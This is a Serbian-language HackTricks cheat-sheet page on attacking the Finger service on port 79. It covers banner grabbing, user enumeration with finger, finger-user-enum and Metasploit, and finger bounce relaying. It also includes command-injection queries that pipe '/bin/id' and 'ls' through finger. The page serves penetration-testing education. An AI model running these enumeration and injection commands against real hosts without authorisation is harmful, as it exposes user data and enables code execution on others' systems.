 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Pokrenite potpuni pentest sa bilo kog mesta sa 20+ alata i funkcija koje se kreću od rekognicije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Osnovne informacije**

**Finger** program/usluga se koristi za dobijanje detalja o korisnicima računara. Obično, informacije koje se pružaju uključuju **korisničko ime, puno ime**, i, u nekim slučajevima, dodatne detalje. Ovi dodatni detalji mogu obuhvatati lokaciju kancelarije i broj telefona (ako su dostupni), vreme kada se korisnik prijavio, period neaktivnosti (vreme mirovanja), poslednji put kada je korisnik pročitao poštu, i sadržaj korisnikovih planova i projektnih datoteka.

**Podrazumevani port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Enumeracija**

### **Prikupljanje banera/Osnovna veza**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Enumeracija korisnika**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternativno, možete koristiti **finger-user-enum** iz [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), neki primeri:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap izvršava skriptu za korišćenje podrazumevanih skripti**

### Metasploit koristi više trikova od Nmap-a
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Izvršavanje komandi
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Koristite sistem kao finger relé](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Izvršite potpuno pentestiranje sa bilo kog mesta uz 20+ alata i funkcija koje se kreću od rekognosciranja do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
